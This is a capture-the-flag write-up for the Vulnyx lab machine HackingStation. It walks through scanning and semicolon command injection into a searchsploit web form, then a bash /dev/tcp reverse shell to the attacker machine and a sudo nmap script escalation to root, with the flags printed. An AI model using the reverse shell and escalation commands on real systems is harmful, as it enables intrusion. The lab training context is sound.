



**Platform:** Vulnyx\
**Operating System:** Linux

> **Tags:** `Linux` `Command Injection` `Burp Suite` `URL Encoding` `Reverse Shell` `Sudoers`

## INSTALLATION

We download the `zip` containing the `.ova` of the HackingStation machine, extract it, and import it into VirtualBox.

We configure the network interface of the HackingStation machine and run it alongside the attacker machine.

## HOST DISCOVERY

At this point, we still don’t know which `IP` address is assigned to HackingStation, so we discover it as follows:

```bash
netdiscover -i eth1 -r 10.0.0.0/16
```

Info:

```
Currently scanning: 10.0.0.0/16   |   Screen View: Unique Hosts               
                                                                               
 4 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 240               
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 10.0.4.1        52:54:00:12:35:00      1      60  Unknown vendor              
 10.0.4.2        52:54:00:12:35:00      1      60  Unknown vendor              
 10.0.4.3        08:00:27:22:43:7a      1      60  PCS Systemtechnik GmbH      
 10.0.4.23       08:00:27:7f:d5:63      1      60  PCS Systemtechnik GmbH
```

We identify with high confidence that the victim’s IP is `10.0.4.21`.

## PORT SCANNING

Next, we perform a general scan to check which ports are open, followed by a more exhaustive scan to gather relevant service information.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 10.0.4.23
```

```bash
nmap -n -Pn -sCV -p80 --min-rate 5000 10.0.4.23
```

Info:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-18 15:36 CEST
Nmap scan report for 10.0.4.23
Host is up (0.00019s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: HackingStation
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 08:00:27:53:58:15 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.50 seconds
```

We only have port `80` open.

We access the service over `HTTP` and find a page that allows us to search for exploits by entering a keyword.


It looks likely that when we submit a word the server runs the command `searchsploit <input>`.

The first thing that occurred to me when I saw this was to use a semicolon to chain and execute other commands such as `whoami`. We try `hola; id`:



At the very bottom we see the output of the id command.

```
uid=1000(hacker) gid=1000(hacker) groups=1000(hacker)
```

We are executing commands as the user hacker.

We will abuse this vulnerability to inject a command that returns a `reverse shell`. To make manipulation easier we intercept the request with `Burp Suite`.



Now we inject, instead of the `id` command, the command that spawns the `reverse shell` (the command is as follows):

```bash
bash -c 'bash -i >& /dev/tcp/10.0.4.12/4444 0>&1'
```

Once we have it, we press `Ctrl + U` to apply `URL encoding`, resulting in the encoded payload.



Before forwarding the request we set up a `listener` on our attacker machine.

```bash
sudo nc -nlvp 4444
```

Then we forward the request, and we receive the `reverse shell` as user `hacker`.

Info:

```
connect to [10.0.4.12] from (UNKNOWN) [10.0.4.23] 52244
bash: cannot set terminal process group (578): Inappropriate ioctl for device
bash: no job control in this shell
hacker@HackingStation:/var/www/html$ whoami
hacker
hacker@HackingStation:/var/www/html$
```

In `/home/hacker` we find the `user flag`.

```
e34efd51251772a8abc4cc00ee52bb0a
```

## TTY

Before attempting privilege escalation, we upgrade the `TTY` for a more interactive shell:

```bash
script /dev/null -c bash
```

`ctrl Z`

```bash
stty raw -echo; fg
```

```bash
reset xterm
```

```bash
export TERM=xterm
```

```bash
export BASH=bash
```

## PRIVILEGE ESCALATION

We check for `sudo` privileges and `SUID` binaries.

```bash
sudo -l
```

Info:

```
Matching Defaults entries for hacker on HackingStation:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User hacker may run the following commands on HackingStation:
    (root) NOPASSWD: /usr/bin/nmap
```

We discover that the `nmap` binary is executable with `root` privileges. We can leverage this to escalate privileges as follows:

```bash
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
sudo nmap --script=$TF
```

Info:

```
Starting Nmap 7.93 ( https://nmap.org ) at 2025-09-18 16:17 CEST
NSE: Warning: Loading '/tmp/tmp.1YDzuaWoGU' -- the recommended file extension is '.nse'.
# script /dev/null -qc /bin/bash
root@HackingStation:/var/www/html# whoami
root
root@HackingStation:/var/www/html#
```

We now have `root` level access!

In `/root` we find the `root flag`.

```
f900f7fb7d2c5ea64deca6378ebe5ead
```
